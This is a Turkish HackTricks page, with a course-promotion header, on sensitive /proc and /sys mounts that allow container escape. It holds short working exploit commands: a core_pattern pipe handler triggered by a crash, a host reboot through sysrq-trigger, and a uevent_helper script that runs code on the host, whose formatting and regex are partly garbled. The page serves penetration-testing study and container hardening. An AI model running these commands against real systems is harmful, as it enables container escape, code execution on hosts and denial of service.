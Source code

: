 # Hassas Bağlantı Noktaları

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahramana öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> ile!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR'lar göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

Doğru namespace izolasyonu olmadan `/proc` ve `/sys`'in maruz kalması, saldırı yüzeyinin genişlemesi ve bilgi sızdırma gibi ciddi güvenlik risklerini beraberinde getirir. Bu dizinler, yanlış yapılandırılmış veya yetkisiz bir kullanıcı tarafından erişilen hassas dosyalar içerir ve bu da konteyner kaçışına, ana bilgisayarın değiştirilmesine veya daha fazla saldırıya yardımcı olacak bilgilerin sağlanmasına yol açabilir. Örneğin, `-v /proc:/host/proc` şeklinde yanlış bağlama yapılması, yol tabanlı doğası nedeniyle AppArmor korumasını atlayabilir ve `/host/proc`'u korumasız bırakabilir.

**Her potansiyel zafiyetin daha fazla ayrıntısını** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)** adresinde bulabilirsiniz.**

## procfs Zafiyetleri

### `/proc/sys`

Bu dizin, genellikle `sysctl(2)` aracılığıyla çekirdek değişkenlerini değiştirmeye izin verir ve endişe kaynağı olan birkaç alt dizini içerir:

#### **`/proc/sys/kernel/core_pattern`**

* [core(5)](https://man7.org/linux/man-pages/man5/core.5.html) adresinde açıklanmıştır.
* İlk 128 baytı argümanlar olarak alan bir programın çekirdek dosyası oluşturulduğunda çalıştırılmasına izin verir. Dosya bir boru `|` ile başlıyorsa kod yürütme olabilir.
*   **Test ve Sömürü Örneği**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # Yazma erişimini test et
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # Özel işleyiciyi ayarla
sleep 5 && ./crash & # İşleyiciyi tetikle
```

#### **`/proc/sys/kernel/modprobe`**

* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) adresinde detaylı olarak açıklanmıştır.
* Çekirdek modül yükleyicisinin yolunu içerir, çekirdek modüllerini yüklemek için çağrılır.
*   **Erişimi Kontrol Etme Örneği**:

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # modprobe erişimini kontrol et
```

#### **`/proc/sys/vm/panic_on_oom`**

* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) adresinde referans gösterilmiştir.
* Bir OOM durumu meydana geldiğinde çekirdeğin çökmesini veya OOM öldürücüyü çağırmasını kontrol eden genel bir bayrak.

#### **`/proc/sys/fs`**

* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) adresinde belirtildiği gibi, dosya sistemi hakkında seçenekler ve bilgiler içerir.
* Yazma erişimi, ana bilgisayara karşı çeşitli hizmet reddi saldırılarına olanak tanır.

#### **`/proc/sys/fs/binfmt_misc`**

* Sihirli sayılarına dayalı olmayan ikili biçimler için yorumlayıcıları kaydetmeye izin verir.
* `/proc/sys/fs/binfmt_misc/register` yazılabilirse ayrıcalık yükseltmesine veya kök kabuk erişimine yol açabilir.
* İlgili sömürü ve açıklama:
* [binfmt\_misc ile yoksul adamın kök kiti](https://github.com/toffan/binfmt\_misc)
* Detaylı öğretici: [Video bağlantısı](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Diğerleri `/proc` içinde

#### **`/proc/config.gz`**

* `CONFIG_IKCONFIG_PROC` etkinse çekirdek yapılandırmasını ortaya çıkarabilir.
* Çalışan çekirdekteki zafiyetleri belirlemek için saldırganlar için faydalıdır.

#### **`/proc/sysrq-trigger`**

* Sysrq komutlarını çağırmaya izin verir, potansiyel olarak anında sistem yeniden başlatmalar veya diğer kritik işlemlere neden olabilir.
*   **Ana Bilgisayarı Yeniden Başlatma Örneği**:

```bash
echo b > /proc/sysrq-trigger # Ana bilgisayarı yeniden başlatır
```

#### **`/proc/kmsg`**

* Çekirdek halka tamponu mesajlarını açığa çıkarır.
* Çekirdek saldırılarına, adres sızıntılarına ve hassas sistem bilgilerinin sağlanmasına yardımcı olabilir.

#### **`/proc/kallsyms`**

* Çekirdek dışa aktarılan sembolleri ve adreslerini listeler.
* Özellikle KASLR'yi aşmak için çekirdek saldırı geliştirme için temel öneme sahiptir.
* Adres bilgileri `kptr_restrict`'in `1` veya `2` olarak ayarlandığında kısıtlanır.
* Detaylar [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) adresinde bulunabilir.

#### **`/proc/[pid]/mem`**

* Çekirdek bellek cihazı `/dev/mem` ile etkileşim sağlar.
* Tarihsel olarak ayrıcalık yükseltme saldırılarına karşı savunmasızdır.
* Daha fazla bilgi için [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) adresine bakabilirsiniz.

#### **`/proc/kcore`**

* Sistemin fiziksel belleğini ELF çekirdek formatında temsil eder.
* Okuma, ana bilgisayar sistemi ve diğer konteynerlerin bellek içeriğini sızdırabilir.
* Büyük dosya boyutu okuma sorunlarına veya yazılım çökmelerine yol açabilir.
* Detaylı kullanım [2019'da /proc/kcore'un Dökülmesi](https://schlafwandler.github.io/posts/dumping-/proc/kcore/) adresinde bulunabilir.

#### **`/proc/kmem`**

* `/dev/kmem` için alternatif arayüz, çekirdek sanal belleğini temsil eder.
* Okuma ve yazma izni verir, dolayısıyla çekirdek belleğinin doğrudan değiştirilmesine olanak tanır.

#### **`/proc/mem`**

* `/dev/mem` için alternatif arayüz, fiziksel belleği temsil eder.
* Okuma ve yazma izni verir, tüm belleğin değiştirilmesi sanal adreslerin fiziksel adreslere çözülmesini gerektirir.

#### **`/proc/sched_debug`**

* PID ad alanı korumalarını atlayarak işlem zamanlama bilgilerini döndürür.
* İşlem adlarını, kimlikleri ve cgroup tanımlayıcılarını açığa çıkarır.

#### **`/proc/[pid]/mountinfo`**

* İşlem montaj ad alanındaki bağlantı noktaları hakkında bilgi sağlar.
* Konteyner `rootfs` veya görüntünün konumunu açığa çıkarır.

### `/sys` Zafiyetleri

#### **`/sys/kernel/uevent_helper`**

* Çekirdek cihaz `uevent`'leri işlemek için kullanılır.
* `/sys/kernel/uevent_helper`'a yazmak, `uevent` tetikleyicileri üzerine keyfi komut dosyalarını yürütebilir.
*   **Sömürü için Örnek**: %%%bash

## Bir yük oluşturur

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

## Konteyner için OverlayFS bağlamından ana bilgisayar yolunu bulur

host\_path=$(sed -n 's/._\perdir=(\[^,]_).\*/\1/p' /etc/mtab)

## uevent\_helper'ı kötü niyetli yardımcıya ayarlar

echo "$host\_path/evil-helper" > /sys/kernel/uevent\_helper

## Bir uevent tetikler

echo change > /sys/class/mem/null/uevent

## Çıktıyı okur

cat /output %%%
#### **`/sys/class/thermal`**

* Sıcaklık ayarlarını kontrol eder, olası DoS saldırılarına veya fiziksel hasara neden olabilir.

#### **`/sys/kernel/vmcoreinfo`**

* Kernel adreslerini sızdırır, KASLR'ı tehlikeye atabilir.

#### **`/sys/kernel/security`**

* `securityfs` arayüzünü barındırır, AppArmor gibi Linux Güvenlik Modülleri'nin yapılandırılmasına izin verir.
* Erişim, bir konteynerin MAC sistemini devre dışı bırakmasına olanak tanıyabilir.

#### **`/sys/firmware/efi/vars` ve `/sys/firmware/efi/efivars`**

* NVRAM'daki EFI değişkenleriyle etkileşim için arayüzler sunar.
* Yanlış yapılandırma veya kötüye kullanım, tuğla haline getirilmiş dizüstü bilgisayarlar veya başlatılamayan ana bilgisayar makinelerine yol açabilir.

#### **`/sys/kernel/debug`**

* `debugfs`, çekirdeğe "kurallar olmadan" hata ayıklama arayüzü sunar.
* Sınırsız doğası nedeniyle güvenlik sorunları geçmişi bulunmaktadır.

### Referanslar

* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [Understanding and Hardening Linux Containers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [Abusing Privileged and Unprivileged Linux Containers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)
